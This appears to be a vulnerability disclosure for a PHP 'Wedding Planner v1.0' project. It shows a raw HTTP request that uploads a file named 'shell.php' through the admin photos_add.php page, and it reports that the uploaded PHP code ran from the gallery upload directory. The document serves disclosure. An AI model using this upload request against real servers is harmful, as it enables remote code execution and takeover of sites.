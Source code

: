 # Wedding Planner v1.0 by pushpam02 has arbitrary code execution (RCE)

BUG_Author: Li4u

vendor: https://www.sourcecodester.com/php/15375/wedding-planner-project-php-free-download.html

Vulnerability url: http://ip/Wedding-Management-PHP/admin/photos_add.php

Loophole location: Add function of Upload phpotos module in background management system-- > there is an arbitrary file upload vulnerability (RCE) in the OR Drag Your Images image upload point of photos_add.php file.

Request package for file upload：

```sql
POST /Wedding-Management-PHP/admin/photos_add.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cache-Control: no-cache
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/Wedding-Management-PHP/admin/photos_add.php
Content-Length: 229
Content-Type: multipart/form-data; boundary=---------------------------203341102920780
Cookie: PHPSESSID=ncd6h7doujvbbft46r0m7mbr6s
Connection: close

-----------------------------203341102920780
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------203341102920780--
```

The files will be uploaded to this directory \Wedding-Management-PHP\admin\upload\gallery
![image](https://user-images.githubusercontent.com/54017627/183275287-022aaffa-c5e5-48e4-a8a1-fe090ac3419f.png)

We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183275303-0c470eae-3f16-47d0-abb9-3c49000a3c7f.png)
